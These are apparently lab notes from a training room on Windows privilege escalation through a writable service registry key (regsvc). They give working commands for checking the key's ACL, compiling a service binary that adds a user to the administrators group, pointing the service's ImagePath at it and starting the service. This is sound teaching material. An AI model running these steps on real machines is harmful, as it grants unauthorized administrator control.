 **Detection**

*Windows VM

1. Open powershell prompt and type: 

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl 
```

![[Pasted image 20240130225411.png]]


2. Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

**Exploitation**

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_service.c’ to the Kali VM.

![[Pasted image 20240130225909.png]]


*Kali VM*

1. Open windows_service.c in a text editor and replace the command used by the system() function to: 

```
cmd.exe /k net localgroup administrators user /add
```

![[Pasted image 20240130230333.png]]

2. Exit the text editor and compile the file by typing the following in the command prompt: 

```
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```
*(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')**

![[Pasted image 20240130230740.png]]

3. Copy the generated file x.exe, to the Windows VM.

*On Windows*:

```
copy \\10.8.194.147\p\x.exe
```


![[Pasted image 20240130230923.png]]

*Windows VM

1. Place x.exe in ‘C:\Temp’.  

![[Pasted image 20240130231828.png]]


2. Open command prompt at type:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```

![[Pasted image 20240130232003.png]]

3. In the command prompt type: 

```
sc start regsvc
```

![[Pasted image 20240130232058.png]]

4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt:

```
net localgroup administrators
```

![[Pasted image 20240130232213.png]]

Answer the questions below

Click 'Completed' once you have successfully elevated the machine
